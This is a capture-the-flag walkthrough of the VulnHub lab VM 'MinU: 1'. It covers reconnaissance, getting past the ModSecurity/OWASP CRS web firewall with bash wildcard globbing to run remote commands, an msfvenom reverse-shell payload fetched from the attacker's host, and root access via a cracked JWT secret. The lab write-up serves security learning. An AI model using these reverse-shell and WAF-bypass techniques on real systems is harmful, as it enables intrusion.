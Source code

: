 ```yaml
---
layout: post
title: "MinU: 1 Walkthrough"
subtitle: "O, wasp!"
date: 2018-09-11 08:10:53 +0000
category: Walkthrough
tags: [VulnHub, MinU]
comments: true
image:
  feature: minu-1-walkthrough.jpg
  credit: umsiedlungen / Pixabay
  creditlink: https://pixabay.com/en/insect-wasps-hornets-hornissennest-3270233/
---
```


This post documents the complete walkthrough of MinU: 1, a boot2root [VM][1] created by [8bitsec][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post 
{:.no_toc} 

* TOC 
{:toc}

## Background

This boot2root is an Ubuntu Based virtual machine and has been tested using VirtualBox. The network interface of the virtual machine will take it's IP settings from DHCP. Your goal is to capture the flag on `/root`.

## Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.30.129
...
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.27
|_http-server-header: Apache/2.4.27 (Ubuntu)
|_http-title: 403 Forbidden
```

This should be fun. `nmap` finds one open port: `80/tcp`.

### Directory/File Enumeration

Let's use `wfuzz` to fuzz the site and see what we are up against.

![ad2513b7.png](/assets/images/posts/minu-1-walkthrough/ad2513b7.png)

Something's up. There's way too many `403`s. Probably some Rewrite rules and/or a Web Application Firewall (WAF) are in place.

![cfa688d8.png](/assets/images/posts/minu-1-walkthrough/cfa688d8.png)

Now, this is more like it.

### ModSecurity (OWASP CRS)

Let's use `wafw00f` to determine if there's a WAF in place.

![c7c5625b.png](/assets/images/posts/minu-1-walkthrough/c7c5625b.png)

Damn.

Let's not get too hung up on the WAF. Check out the HTML source code of `/test.php`.

![a4e318e4.png](/assets/images/posts/minu-1-walkthrough/a4e318e4.png)

Looks like there's an intention to delay loading with JavaScript. Let's disable JavaScript.

![0cbd15e7.png](/assets/images/posts/minu-1-walkthrough/0cbd15e7.png)

No js yay! But, are we looking at a Local File Inclusion (LFI) vulnerability here?

![a675067c.png](/assets/images/posts/minu-1-walkthrough/a675067c.png)

![db603633.png](/assets/images/posts/minu-1-walkthrough/db603633.png)

Anyway, long story short. It's not LFI, it's something else—remote command execution. Basically, this is an exercise in bypassing OWASP CRS.

### Remote Command Execution

Don't believe it? Look here.

![825b6ba6.png](/assets/images/posts/minu-1-walkthrough/825b6ba6.png)

What do you see? The `file` parameter accepts a pipe (`|`) character and the `rev` command, resulting in the contents of `last.html` reversed. You know what, it's always better to see it in `curl`.

![2ae77265.png](/assets/images/posts/minu-1-walkthrough/2ae77265.png)

Voila. This is indeed an exercise to bypass OWASP CRS to execute commands.

A tutorial on how ModSecurity and OWASP CRS work is beyond the scope of this walkthrough. Suffice to say, they work based on pattern matching hella of complex looking regular expressions.

Because `bash` enables wildcards (asterisk `*` and question mark `?`) for globbing in the VM, we can leverage that to bypass the OWASP CRS filters.

Here's an example to view `/etc/passwd`.

![bddf976d.png](/assets/images/posts/minu-1-walkthrough/bddf976d.png)

Here's an example to execute the `ls` command.

![4d486a76.png](/assets/images/posts/minu-1-walkthrough/4d486a76.png)

## Low-Privilege Shell

We can now make use of the above to give ourselves a low-privilege shell. We'll pull a reverse shell (generated with `msfvenom`) with `wget`, but first we need to determine whether the OS is 32-bit or 64-bit with `uname`.

![0e944f46.png](/assets/images/posts/minu-1-walkthrough/0e944f46.png)

Generate a reverse shell with `msfvenom`.

```
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.30.128 LPORT=1234 -f elf -o rev
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
Final size of elf file: 152 bytes
Saved as: rev
```

Host it with Python's SimpleHTTPServer.

```
# python -m SimpleHTTPServer 80
```
Download the reverse shell like so.

![61a81256.png](/assets/images/posts/minu-1-walkthrough/61a81256.png)

Check if the download was successful.

![3e850ebc.png](/assets/images/posts/minu-1-walkthrough/3e850ebc.png)

Now, make `rev` executable with `chmod`.

![86487420.png](/assets/images/posts/minu-1-walkthrough/86487420.png)

![7b89128e.png](/assets/images/posts/minu-1-walkthrough/7b89128e.png)

Time to execute the reverse shell. Before we do that, let's set up our `nc` listener.

![e8ba719c.png](/assets/images/posts/minu-1-walkthrough/e8ba719c.png)

Hooray. A shell at last.

![911cdd4d.png](/assets/images/posts/minu-1-walkthrough/911cdd4d.png)

## Privilege Escalation

During enumeration of `bob`'s account, I noticed the presence of a JSON web token (JWT) in `/home/bob/._pw_`. Here's how it looks like.

![7ae14d04.png](/assets/images/posts/minu-1-walkthrough/7ae14d04.png)

JWT has three parts in this format:

```
base64(header).base64(payload).base64(signature)
```

1. `header` specifies the algorithm and the type in JSON.
2. `payload` specifies the claim of the token, also in JSON.
3. `signature` is the digital signature of the encoded header and payload.

There's a online [debugger](https://jwt.io/#debugger) that we can use to find out the header and payload.

![bb1a57ab.png](/assets/images/posts/minu-1-walkthrough/bb1a57ab.png)

Judging by the file name, I guess we need to crack the JWT to determine the secret used in HS256 to create the signature.

### JWT Cracker

Searching for "jwt crack github" in Google gave plenty of results. I decided on [c-jwt-cracker](https://github.com/brendan-rius/c-jwt-cracker) based on performance considerations—it's multi-threaded and written in C.

Cracking the JWT with it, is crazy fast compared to the rest.

![0aecce8c.png](/assets/images/posts/minu-1-walkthrough/0aecce8c.png)

### What's the Flag (WTF)

It turns out that the secret is `root`'s password. With that, getting the flag is trivial.

![f5afe660.png](/assets/images/posts/minu-1-walkthrough/f5afe660.png)

:dancer:

## Afterthought

I had a fun time trying out different JWT crackers. :laughing:

[1]: https://www.vulnhub.com/entry/minu-1,235/
[2]: https://twitter.com/@_8bitsec
[3]: https://www.vulnhub.com/

